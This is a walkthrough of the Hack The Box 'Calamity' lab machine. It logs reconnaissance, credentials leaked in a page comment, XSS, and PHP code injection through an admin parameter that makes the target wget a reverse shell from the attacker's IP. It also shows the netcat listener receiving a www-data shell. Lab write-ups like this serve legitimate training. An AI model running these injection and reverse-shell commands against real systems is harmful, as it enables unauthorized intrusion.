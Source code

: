# HTB - Calamity  10.10.10.27



## NMap

```# nmap -sC -sV -A 10.10.10.27 -p-
Starting Nmap 7.80 ( https://nmap.org ) at 2019-09-23 23:54 CEST
Nmap scan report for 10.10.10.27
Host is up (0.030s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6:46:31:9c:b5:71:c5:96:91:7d:e4:63:16:f9:59:a2 (RSA)
|   256 10:c4:09:b9:48:f1:8c:45:26:ca:f6:e1:c2:dc:36:b9 (ECDSA)
|_  256 a8:bf:dd:c0:71:36:a8:2a:1b:ea:3f:ef:66:99:39:75 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Brotherhood Software

```


## http://10.10.10.27/

![](img/calamity.png)


## http://10.10.10.27/admin.php

![](img/calamity_login.png)

Credentials found in  Response : Burp or Page Source
```
<!-- password is:skoupidotenekes-->
```
==> admin:skoupidotenekes


Once loged, a cokkie is set.

Cookie: adminpowa=noonecares
Can change the cookie value, noone care..


http://10.10.10.27/admin.php?html=%3Cscript%3Ealert%281%29%3C%2Fscript%3E
Command is subject to XSS

Try to wfuzz to get other command..

?html => Add html in page.

```
# wfuzz -z file,./burp-parameter-names.txt  http://10.10.10.27/admin.php?FUZZ=echo

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.2.11 - The Web Fuzzer                        *
********************************************************

Target: http://10.10.10.27/admin.php?FUZZ=echo
Total requests: 2588

==================================================================
ID	Response   Lines      Word         Chars          Payload    
==================================================================

000067:  C=200     10 L	      25 W	    451 Ch	  "pass"
000068:  C=200     10 L	      25 W	    451 Ch	  "dir"
000069:  C=200     10 L	      25 W	    451 Ch	  "show"
000070:  C=200     10 L	      25 W	    451 Ch	  "h"
000071:  C=200     10 L	      25 W	    451 Ch	  "value"

# wfuzz -z file,./burp-parameter-names.txt --hh=451  http://10.10.10.27/admin.php?FUZZ=echo

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.2.11 - The Web Fuzzer                        *
********************************************************

Target: http://10.10.10.27/admin.php?FUZZ=echo
Total requests: 2588

==================================================================
ID	Response   Lines      Word         Chars          Payload    
==================================================================


Total time: 8.836157
Processed Requests: 2588
Filtered Requests: 2588
Requests/sec.: 292.8874

```


## Found webpage http://10.10.10.27/uploads/



### php injection : <?php phpinfo(); ?>

Some injections
http://10.10.10.27/admin.php?html=%3C%3Fphp+system("pwd")%3B%3F%3E
http://10.10.10.27/admin.php?html=%3C%3Fphp+system("ls")%3B%3F%3E

Serve php-reverse-shell.php
Update IP & port in php.

http://10.10.10.27/admin.php?html=%3C%3Fphp+system(%22wget%20http://10.10.14.36/shell.php%20-O%20uploads/shell.php%22)%3B%3F%3E

http://10.10.10.27/uploads/shell.php


```
# nc -lvp 4444
listening on [any] 4444 ...
10.10.10.27: inverse host lookup failed: Unknown host
connect to [10.10.14.36] from (UNKNOWN) [10.10.10.27] 50122
Linux calamity 4.4.0-81-generic #104-Ubuntu SMP Wed Jun 14 08:15:00 UTC 2017 i686 athlon i686 GNU/Linux
 18:42:32 up 48 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
$ 
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
```

## System

```
$ cat /etc/issue
Ubuntu 16.04.2 LTS \n \l

www-data@calamity:/home/xalvas$ uname -a
Linux calamity 4.4.0-81-generic #104-Ubuntu SMP Wed Jun 14 08:15:00 UTC 2017 i686 athlon i686 GNU/Linux
www-data@calamity:/home/xalvas$ 

```


## Wav files

Download .wav files
- recov.wav
- rick.wav


sudo apt-get install audacity
load rick
import recov
invert rick

Play => 18547936..*

## ssh xalvas@10.10.10.27 : 18547936..*


lxc is installed...
We can use docker exploit

- https://www.hackingarticles.in/hack-the-box-challenge-calamity-walkthrough/

